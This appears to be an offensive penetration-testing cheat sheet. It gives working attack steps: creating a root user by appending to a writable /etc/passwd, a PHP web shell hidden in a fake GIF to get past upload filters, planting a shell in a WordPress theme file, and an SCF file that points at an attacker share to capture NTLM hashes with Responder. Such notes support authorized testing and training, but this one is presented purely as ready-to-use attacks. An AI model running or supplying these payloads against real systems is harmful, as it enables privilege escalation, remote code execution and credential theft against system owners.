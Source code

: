 
# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```